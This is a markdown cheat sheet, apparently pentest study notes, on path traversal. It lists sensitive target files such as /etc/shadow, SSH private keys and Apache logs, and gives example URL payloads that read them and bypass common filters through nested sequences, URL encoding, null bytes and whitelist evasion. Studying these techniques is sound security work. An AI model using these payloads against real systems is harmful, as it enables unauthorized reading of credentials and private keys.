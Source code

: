 # Path traversal

## Summary
* [Check Apache files](#apache-files-worth-to-check)
* [Path traversal with sequences](#path-traversal-with-traversal-sequences)
* [Common filters on path traversal](#common-obstacles-to-exploiting-file-path-traversal-vulnerabilities)
    * [Absolute path filter](#file-path-traversal-traversal-sequences-blocked-with-absolute-path-bypass)
    * [Sequences stripped non-recursively](#file-path-traversal-traversal-sequences-stripped-non-recursively)
    * [Sequences stripped with superfluous url decoding](#file-path-traversal-traversal-sequences-stripped-with-superfluous-url-decode)
    * [Validation on start of path](#file-path-traversal-validation-of-start-of-path)
    * [Validation of file extension](#file-path-traversal-validation-of-file-extension-with-null-byte-bypass)
    * [Whitelist and blacklist](#file-path-traversal-bypassing-whitelisted-and-blacklisted)

## Apache files worth to check
```
/etc/passwd
/etc/ssh/sshd_config
/etc/ssh/ssh_config
/var/log/apache2/access.log -> log poisoning
/etc/apache2/sites-enabled/000-default.conf
/home/user/.ssh/id_rsa
/etc/shadow
/cgi-bin/phpinfo.php
/proc/1/cmdline -> to see if you are inside a docker container
/proc/mounts -> see mounted services
```

## Path traversal with traversal sequences
Suppose an application displays images of items for sale
``` 
> http://example.com?img=img1.jpg
> the img1.jpg is located in /var/www/images
```
Using traversal sequences, an attacker can navigate to the file root system to read an arbitrary file
```
> http://example.com?img=../../../etc/passwd
> the three consecutive ../ sequences step up from /var/www/images to the file root system
```

## Common obstacles to exploiting file path traversal vulnerabilities
### File path traversal, traversal sequences blocked with absolute path bypass
```
> without using any traversal sequences, an attacker would just have to submit the file path they want to read
    # http://example.com?img=/etc/passwd
    # this works because the application is blocking traversal sequences with absolute path meaning the file path will always be in the root file system
```
### File path traversal, traversal sequences stripped non-recursively
```
> using nested traversal sequences migh help an attacker to bypass the stripping sequence
    # ....// or ....\/ which will revert to simple traversal sequences when the inner sequence is stripped
```
### File path traversal, traversal sequences stripped with superfluous URL-decode
```
> in some context, directory traversal sequences will be stripped off even before the web server pass the input to the application
> an attacker can bypass this kind of sanitization by URL encoding
    # ../ resulting in %2e%2e%2f or %252e%252e%252f or ..%c0%af or ..%ef%bc%8f
    # using the encoded traversal sequences might help an attacker to bypass the sanitization
```
### File path traversal, validation of start of path
```
> in some context, an application will need the expected base folder such as /var/www/images before the filename
> to exploit this, an attacker could simply include a traversal sequences after the base folder
    # http://example.com?img=/var/www/images/../../../etc/passwd
```
### File path traversal, validation of file extension with null byte bypass
```
> in some context, an application requires the the filename must end with an expected extension such as .png
> an attacker can bypass this validation by including null byte after the filename
    # http://example.com?img=/etc/passwd%00.png
    # the %00 will terminate the file path before the required extension
```
### File path traversal, bypassing whitelisted and blacklisted
```
> in some context, an application will need the expected base folder such as /var/www/html before the filename and an application might black-listed some characters such as ../../
> an attacker can bypass this validation by replacing the traversal sequence ../../ to .././..
    # http://example.com?query=/var/www/html/.././.././.././../etc/passwd
``` 
